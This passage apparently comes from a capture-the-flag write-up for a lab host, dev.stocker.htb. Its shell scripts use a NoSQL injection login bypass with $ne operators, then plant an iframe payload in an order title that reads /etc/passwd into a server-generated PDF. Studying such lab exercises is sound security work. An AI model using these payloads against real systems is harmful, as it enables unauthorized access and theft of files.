 ```shell
OrderId=$(grep -Eo '[0-9a-z]{24}' order.txt)

# get the resulting PDF
curl -q http://dev.stocker.htb/api/po/$OrderId -o bill.pdf
```

From [Server Side XSS (Dynamic PDF)](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf), there a lot of possibilities.

Modifying the script to use a single line payload :

```shell
Payload='<iframe src=file:///etc/passwd></iframe>'

# login, get a cookie session
curl -q -X POST -d  '      
{"username": {"$ne": null}, "password": {"$ne": null} }' http://dev.stocker.htb/login -H 'Content-Type: application/json' --cookie-jar cookies.txt

# We use the Axe product in the cart (from /api/products) :
# {"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0}
curl -q -X POST -H 'Content-Type: application/json' -b cookies.txt -d '{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"'$Payload'","description":"It s an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}' http://dev.stocker.htb/api/order -o order.txt

# in order .txt, we have the order ID :
# {"success":true,"orderId":"646282deebf9850adf30eab4"}
OrderId=$(grep -Eo '[0-9a-z]{24}' order.txt)

# get the resulting PDF
curl -q http://dev.stocker.htb/api/po/$OrderId -o bill.pdf
```

we have a result :
